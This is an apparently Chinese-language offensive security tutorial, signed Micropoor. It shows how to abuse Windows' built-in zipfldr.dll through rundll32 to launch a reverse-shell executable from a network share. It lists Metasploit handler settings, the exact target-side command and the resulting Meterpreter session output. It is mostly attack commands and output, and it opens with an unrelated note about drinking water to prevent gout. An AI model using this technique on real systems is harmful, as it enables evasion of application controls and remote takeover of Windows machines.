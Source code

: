 **注：**请多喝点热水或者凉白开，可预防**肾结石，通风**等。
痛风可伴发肥胖症、高血压病、糖尿病、脂代谢紊乱等多种代谢性疾病。

### zipfldr.dll简介：
zipfldr.dll自Windows xp开始自带的zip文件压缩/解压工具组件。

**说明：**zipfldr.dll所在路径已被系统添加PATH环境变量中，因此，zipfldr.dll命令可识别，但由于为dll文件，需调用rundll32.exe来执行。

Windows 2003 默认位置：
```bash
C:\Windows\System32\zipfldr.dll
C:\Windows\SysWOW64\zipfldr.dll
```

Windows 7 默认位置：
```bash
C:\Windows\System32\zipfldr.dll
C:\Windows\SysWOW64\zipfldr.dll
```

**攻击机：**   
192.168.1.4 Debian  
**靶机：**   
192.168.1.3 Windows 7  
192.168.1.3 Windows 2003

### 配置攻击机msf：
```bash
msf exploit(multi/handler) > show options 

Module options (exploit/multi/handler): 

Name Current Setting Required Description
‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐ 

Payload options (windows/meterpreter/reverse_tcp): 

Name Current Setting Required Description
‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐
EXITFUNC process yes Exit technique (Accepted: '', seh, thread, process, none)

LHOST 192.168.1.4 yes The listen address (an interface may be specified)

LPORT 53 yes The listen port 

Exploit target: 

Id Name
‐‐ ‐‐‐‐
0 Wildcard Target 

msf exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 192.168.1.4:53 
```
![](/img/9fef673f4302344108c99ae65736192b.jpg)

### 靶机执行：

```bash
rundll32.exe zipfldr.dll,RouteTheCall \\192.168.1.119\share\rev_x86_53_exe.exe
```
![](/img/7897dfacc157ca226256c698c2c468a0.jpg)

```bash
msf exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 192.168.1.4:53
[*] Sending stage (179779 bytes) to 192.168.1.3
[*] Meterpreter session 7 opened (192.168.1.4:53 ‐> 192.168.1.3:5245) at
2019‐01‐21 04:55:44 ‐0500

meterpreter > getuid
Server username: John‐PC\John
meterpreter > getpid
Current pid: 6988 
```
![](/img/c702b7cef88aa93a5dadb129d20b4917.jpg)

>   Micropoor
